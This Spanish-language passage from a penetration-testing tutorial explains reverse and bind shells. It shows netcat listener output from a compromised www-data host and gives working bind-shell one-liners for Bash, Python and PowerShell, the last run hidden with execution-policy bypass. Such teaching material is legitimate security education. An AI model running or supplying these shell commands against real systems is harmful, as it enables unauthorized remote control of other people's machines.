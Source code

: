 `listening on [any] 1234 ... connect to [10.10.10.10] from (UNKNOWN) [10.10.10.1] 41572`

`id uid=33(www-data) gid=33(www-data) groups=33(www-data)`

Como podemos ver, después de recibir una conexión en nuestro escuchador netcat, pudimos escribir nuestro comando y obtener directamente su salida en nuestra máquina.

Un **Reverse Shell** es útil cuando queremos obtener una conexión rápida y confiable con nuestro host comprometido. Sin embargo, puede ser muy frágil. Si el comando de reverse shell se detiene o si perdemos nuestra conexión por alguna razón, tendríamos que usar el exploit inicial nuevamente para ejecutar el comando de reverse shell y recuperar el acceso.

**Bind Shell**  
Otro tipo de shell es la **Bind Shell**. A diferencia de la **Reverse Shell**, que se conecta a nosotros, en este caso debemos conectarnos a ella en el puerto que el objetivo esté escuchando.

Una vez que ejecutamos un comando de **Bind Shell**, este comenzará a escuchar en un puerto en el host remoto y enlazará la shell de ese host (por ejemplo, Bash o PowerShell) a ese puerto. Luego, debemos conectarnos a ese puerto usando netcat, lo que nos permitirá obtener el control mediante una shell en ese sistema.

### Comando de Bind Shell

Nuevamente, podemos utilizar **Payload All The Things** para encontrar un comando adecuado para iniciar nuestra bind shell.

**Nota**: vamos a iniciar una conexión escuchando en el puerto "1234" en el host remoto, con la IP "0.0.0.0", para que podamos conectarnos desde cualquier lugar.

A continuación, algunos comandos confiables para iniciar una bind shell:

**Comando para Bash en Linux:**

`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc -lvp 1234 >/tmp/f`

**Comando para Python:**

`python -c 'exec("""import socket as s,subprocess as sp;s1=s.socket(s.AF_INET,s.SOCK_STREAM);s1.setsockopt(s.SOL_SOCKET,s.SO_REUSEADDR, 1);s1.bind(("0.0.0.0",1234));s1.listen(1);c,a=s1.accept();\nwhile True: d=c.recv(1024).decode();p=sp.Popen(d,shell=True,stdout=sp.PIPE,stderr=sp.PIPE,stdin=sp.PIPE);c.sendall(p.stdout.read()+p.stderr.read())""")'`

**Comando para PowerShell en Windows:**

`powershell -NoP -NonI -W Hidden -Exec Bypass -Command $listener = [System.Net.Sockets.TcpListener]1234; $listener.start();$client = $listener.AcceptTcpClient();$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + " ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close();`

### Conexión con Netcat

Una vez que ejecutamos el comando de bind shell, deberíamos tener una shell esperando en el puerto especificado. Ahora podemos conectarnos a ese puerto.

Podemos usar netcat para conectarnos a ese puerto y obtener una conexión con la shell:
